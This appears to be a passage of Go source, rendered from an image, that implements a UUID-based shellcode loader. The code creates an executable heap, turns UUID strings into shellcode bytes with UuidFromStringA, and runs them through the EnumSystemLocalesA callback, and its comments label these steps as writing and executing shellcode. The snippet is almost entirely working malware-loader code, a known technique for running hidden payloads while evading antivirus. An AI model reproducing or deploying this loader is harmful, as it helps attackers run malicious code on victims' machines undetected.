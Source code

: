 ```go

    uuids = append(uuids, u.String())
  }

  fmt.Println("UUIDs amount:", len(uuids))

  fmt.Println("Loading DLLs...")
  kernel32 := windows.NewLazyDLL("kernel32")
  HeapCreate := kernel32.NewProc("HeapCreate")
  HeapAlloc := kernel32.NewProc("HeapAlloc")
  EnumSystemLocalesA := kernel32.NewProc("EnumSystemLocalesA")

  rpcrt4 := windows.NewLazySystemDLL("Rpcrt4.dll")
  UuidFromStringA := rpcrt4.NewProc("UuidFromStringA")

  // Create heap
  fmt.Println("Calling HeapCreate...")
  heapAddr, _, err := HeapCreate.Call(
    0x00040000,
    0,
    0,
  )

  if heapAddr == 0 { // Handle error
    log.Fatal(err)
  }

  // Allocate heap memory
  fmt.Println("Calling HeapAlloc...")
  addr, _, err := HeapAlloc.Call(
    heapAddr,
    0,
    0x00100000,
  )

  if addr == 0 { // Handle error
    log.Fatal(err)
  }

  addrPtr := addr
  // Iterate over UUIDs to write shellcode
  for _, uuid := range uuids {
    u := append([]byte(uuid), 0)

    fmt.Println("Calling UuidFromStringA with UUID: " + uuid)
    rpcStatus, _, err := UuidFromStringA.Call(
      uintptr(unsafe.Pointer(&u[0])),
      addrPtr,
    )

    if rpcStatus != 0 { // Handle error
      log.Fatal(err)
    }

    addrPtr += 16
  }

  // Execute shellcode
  fmt.Println("Calling EnumSystemLocalesA...")
  ret, _, err := EnumSystemLocalesA.Call(addr, 0)
  if ret == 0 {
    log.Fatal(err)
  }
```